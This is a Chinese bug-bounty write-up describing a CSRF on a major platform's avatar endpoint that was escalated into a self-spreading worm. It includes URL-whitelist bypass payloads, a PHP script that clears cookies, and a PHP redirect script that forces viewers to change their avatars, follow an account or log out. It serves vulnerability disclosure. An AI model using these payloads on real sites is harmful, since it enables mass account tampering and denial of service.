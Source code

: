 #  记一次某大厂csrf漏洞通过蠕虫从低危到高危  
原创 7ech_N3rd  亿人安全   2025-07-01 12:53  
  
文章首发在：奇安信攻防社区  
  
https://forum.butian.net/share/4190  
  
本文记载了笔者src漏洞挖掘的经历，如何将一个简单的csrf提高至高危的程度  
# 初见端倪  
  
在上传的头像的点位:  
  
![blog1.png](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTpUgwIpGMBDIhGty5nNT6waMzlQuZBAtVCPhQOM2j4fm5DP2stsvPchJBDI7gHaaiccdwlut9paicjg/640?wx_fmt=jpeg&from=appmsg "")  
  
当时抓了一个包，发现这个地方更换头像分为三部走:  
- 一，把头像图片上传到云返回云上的地址  
  
- 二，通过另外一个接口上传头像地址的链接  
  
- 三，通过前端中的<img src="头像地址">  
显示  
  
乍一看应该没啥问题，但是问题大了，就出在第二部分。加载图片的本质实际上是去发送一个get请求，但如果这个get请求指向的是某个站内的api，是不是就相当于触发了这个GET请求的接口？这就来试试  
  
```
{"code":500,"message":"URL异常"}
```  
  
很显然，开发者已经想到这一步了，接下来就考虑如何绕过了  
# 绕过限制  
  
已知对方的云服务器地址是xxxcloud.net (已经打码)， 先是测试了@xxxcloud.net  
```
POST /v1.1/avaimageupload.api?product=*****-HTTP/2Host: api.*****.comCookie:****User-Agent: *****-Android 8.1.9 (22127RK46C; Android 9; null) WIFI*****-Phone-Login-Auth: *****Market: *****Deviceid: *****Dadeviceid: *****Androidid: f99ebeddbfb51ff1X-Reqid: ZM5XC3Q0Accept-Encoding: gzip, deflate, brContent-Type: application/x-www-form-urlencoded; charset=utf-8Content-Length: 76imageUrl=***.xxxcloud.net/**.png&blogId=***
```  
### 第一层限制  
  
结果发现是要求必须用xxxcloud.net开头的域名，这个简单，我这里直接使用@  
来绕过就可以了  
http://xxxcloud.net@vps.hacker/  
 会把@前面的东西解析成用户名，就导致了绕过。当然，还有很多中方式来绕过这层限制，这里列举几种常用的。比如@  
你甚至还可以和?  
组合拳  
  
在服务端看来  
```
http://www.hack.com?@qq.com
```  
  
域名是qq.com  
  
但是浏览器特性：会在?前面添加/，所以实际访问的域名就是  
```
http://www.hack.com/?@qq.com
```  
  
还有就是\  
浏览器会默认转成/  
```
http://hack.com\.www.qq.com
```  
  
还有就是:../  
目录穿越绕过  
```
http://www.qq.com/../hack.com
```  
  
你甚至可以使用宽字节的思路来绕过  
```
http://hack.com%df/.qq.com
```  
  
但是这个位置不止在此一个过滤还有其他限制  
## 结尾绕过  
  
经过模糊测试，要求结尾必须是.png .jpg .gif中的一个，这可咋办？  
  
简单我们使用?&<无关紧要的参数>=.jpg  
,绕过  
# 初步利用  
  
现在我们已经可以通过上述手段让受害者通过<img src>  
标签来实现对我们服务器的GET API访问，但是这其实没有任何危害。  
## 退出dos  
  
第一种利用方式是dos。经过测试我发现这个大厂论坛的退出接口虽然是通过POST传参的，但其实还是允许接受GET传参/api/logout  
，这就造成了个问题如果我让受害者访问这个攻击者路由的过程中302转跳访问了/api/logout  
不就自动退出登录了吗？这种情况就造成了我只要顶着我这个头像去大V留个言的作品底下留个言论，凡是看到我评论的就会掉线，这就是最简单的拒绝服务攻击。有人会说，如果logout  
接口是只允许POST传参，这下就该咋办呢？别急，我们还可以在VPS上出创建一个php脚本  
```
<?php// 清空当前所有Cookieif (isset($_COOKIE)) {    foreach ($_COOKIEas$name => $value) {        // 设置Cookie的过期时间为过去，这样浏览器会自动删除它        setcookie($name, '', time() - 86400, '/');    }}?>
```  
  
这样我们通过把cookie值设置到了过去变相的去删除了浏览器中的所有cookie，回到那个论坛由于没有cookie也就自动退出了。但是这个影响还是很有限，只能到中危，如何进一步提高危害呢？  
# 柳暗花明  
  
这个时候发现了一个点位虽然这个修改头像是默认POST传参的，但是你还是可以通过GET传参提交  
```
api.*****.com/v1.1/avaimageupload.api?product=*****&imageUrl=***vps/**.png&blogId=***
```  
  
这就有意思了兄弟们，试想一下，如果我通过vps+302跳转到  
http://api.*****.com/v1.1/avaimageupload.api?product=*****&amp;imageUrl=**\*vps/\**.png&amp;blogId=  
***  
  
这个路由，那会发生什么？  
  
没错，当别人看到我头像(指向GET修改头像的API)，就会自动修改自己的头像，成指向GET修改头像的API，然后其他人再去看到他们的头像。。。  
  
一传十，十传百这样就可以影响到全站的用户。如果这个时候，我把VPS上的poc.php内容修改成退出访问/logout，不就会让全站的用户的退出了吗？  
  
等下，利用链不止于此，我发现那个关注的接口也是可以通过GET传参，这就说明可以恶意刷关注量了。  
# 实践开始  
  
首先在对应的服务器上创建这样一个php脚本用于转跳  
```
<?phpsession_start(); // 启用会话$ip = $_SERVER['REMOTE_ADDR']; // 获取访问者的 IP 地址$referer = isset($_SERVER['HTTP_REFERER']) ? $_SERVER['HTTP_REFERER'] : ''; // 获取 Referer// 定义跳转 URL$firstRedirect = "https://api.*****.com/v1.1/avaimageupload.api?product=*****-android-8.1.9&imageUrl=www.7ntsec.cn/avaimg.*****.net/location_check.php&blogId=2267493166";$secondRedirect = "https://api.*****.com/v1.1/follow.api?followtype=follow&product=*****-android-8.1.9&targetblogid=529578359&blogdomain=*****gamer.*****.com";$refererRedirect = "https://avaimg.*****.net/img/";// 日志文件路径$logFile = "./access_log.txt";// 记录日志的函数functionlogAccess($ip, $referer, $visitCount, $redirectUrl) {global$logFile;$timestamp = date("Y-m-d H:i:s");$logEntry = "[$timestamp] IP: $ip | Referer: $referer | Visit Count: $visitCount | Redirect: $redirectUrl\n";  file_put_contents($logFile, $logEntry, FILE_APPEND); // 追加写入日志}// 如果 Referer 包含 gcweb.*****.com，则直接跳转并记录日志if (strpos($referer, "gcweb.*****.com") !== false) {  logAccess($ip, $referer, "N/A", $refererRedirect);  header("Location: $refererRedirect");exit;}// 记录访问次数（基于 IP）if (!isset($_SESSION['visit_count'][$ip])) {$_SESSION['visit_count'][$ip] = 1;} else {$_SESSION['visit_count'][$ip]++;}// 根据访问次数进行跳转并记录日志if ($_SESSION['visit_count'][$ip] == 1) {  logAccess($ip, $referer, $_SESSION['visit_count'][$ip], $firstRedirect);  header("Location: $firstRedirect");exit;} elseif ($_SESSION['visit_count'][$ip] == 2) {  logAccess($ip, $referer, $_SESSION['visit_count'][$ip], $secondRedirect);  header("Location: $secondRedirect");exit;}?>
```  
  
我这里的思路就是同一个IP第一次访问就是去修改头像，第二次就是直接退出，就实现了自动利用的效果。  
  
但还是碰到这个问题，回到上述的数据包:  
```
api.*****.com/v1.1/avaimageupload.api?product=*****&imageUrl=***vps/**.png&blogId=***
```  
  
我们还需要这个blogid如果获取不了的话就会修改不成  
  
这里我组合利用了另外一个接口:  
```
https://****/*****/web/all.json?key=<username>
```  
  
这个可以直接获取那些高赞博主blogid,就造成了利用。虽然到这一步还是不能自动化利用，但是还是可以通过获取特定高粉丝博主的blogid，然后修改csrfpoc对应的blogid，在这些博主的作品留言实现定向感染高粉丝博主，感染完成后，修改poc成具体危害的数据包如退出，关注等，实现大规模利用的。最终评级是拿到了高危。  
  
